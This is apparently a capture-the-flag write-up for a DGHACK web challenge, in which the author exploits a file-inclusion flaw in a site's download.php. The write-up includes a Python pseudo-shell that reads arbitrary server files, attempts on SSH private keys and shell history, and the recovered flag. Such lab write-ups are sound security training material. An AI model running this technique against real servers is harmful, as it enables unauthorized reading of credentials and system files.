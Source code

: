 # Web / Un chasseur - partie 1 - 

## Challenge
Des analystes SOC du Ministère des Armées ont remarqué des flux suspects provenant de machines internes vers un site vitrine d'une entreprise. Pourtant ce site semble tout à fait légitime.

Vous avez été mandaté par la Direction Générale de l'Armement pour mener l'enquête. Trouvez un moyen de reprendre partiellement le contrôle du site web afin de trouver comment ce serveur joue un rôle dans l'infrastructure de l'acteur malveillant.

Aucun fuzzing n'est nécessaire.

Le flag se trouve sur le serveur à l'endroit permettant d'en savoir plus sur l'infrastructure de l'attaquant.

## Inputs
- http://unchasseursachantchasser.chall.malicecyber.com/

## Solution
With `BURP` open, clicking on every page, I see  some php file `burger.php` calling another one `download.php` to retrieve some images:
```
href="download.php?menu=menu_updated_09_11_2022.jpg
```

Let's try to use it to download a file on the server like `/etc/passwd`: http://unchasseursachantchasser.chall.malicecyber.com/download.php?menu=/etc/passwd

It works, we get the file !
```console
$ cat  ~/Downloads/passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
challenge:x:1337:1337::/home/challenge:/bin/sh
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
Debian-exim:x:102:102::/var/spool/exim4:/usr/sbin/nologin
```

Let's script this to make our life easier. Following piece of code gives us a pseudo-terminal where we can issue commands to `cat` files. Listing directories doesn't seem allowed on the server though...
```python
import requests
from cmd import Cmd

class Terminal(Cmd):
    prompt = '> '

    def __init__(self):
        super().__init__()

    def do_cat(self, args):
        print(run_php(f'{args}'))


def run_php(php_code):
    url = 'http://unchasseursachantchasser.chall.malicecyber.com/download.php'
    params = { 'menu': str.encode(php_code) }
    #proxy = { 'http': 'http://localhost:8080' }
    r = requests.get(url, params=params)
    return(r.content.decode('utf-8'))

term = Terminal()
term.cmdloop()
```

Here it is in action. Sweet.

```console
$ python3 sol.py
> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
challenge:x:1337:1337::/home/challenge:/bin/sh
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
Debian-exim:x:102:102::/var/spool/exim4:/usr/sbin/nologin

> cat /home/nobody/.bash_history
File does not exist.
> cat /home/nobody/.ssh/id_rsa
File does not exist.
> cat /root/.ssh/id_rsa
File does not exist.
>
```

Let's poke interesting files now. A nice list from Daniel Miessler `SecLists` is available at https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt.

But let's be more specific. After all it is indicated that the flag is located where we can learn about the attacker's infra.

```console
> cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
 127.0.0.1      covenant-attacker.com
172.20.0.2      UnChasseurSachantChasser
>
> cat /etc/nginx/nginx.conf
(...)
        # DGHACK{L3s_D0ux_Burg3r5_se_s0nt_f4it_pwn_:(}
        location ^~ /1d8b4cf854cd42f4868849c4ce329da72c406cc11983b4bf45acdae0805f7a72 {
            limit_except GET POST PUT { deny all; }
            rewrite /1d8b4cf854cd42f4868849c4ce329da72c406cc11983b4bf45acdae0805f7a72/(.*) /$1  break;
            proxy_pass https://covenant-attacker.com:7443;
        }
    }
}
>
```

Got the flag in the `nginx` config !

## Python code
Code for the pseudo-shell: [sol.py](./sol.py)

## Flag
DGHACK{L3s_D0ux_Burg3r5_se_s0nt_f4it_pwn_:(}
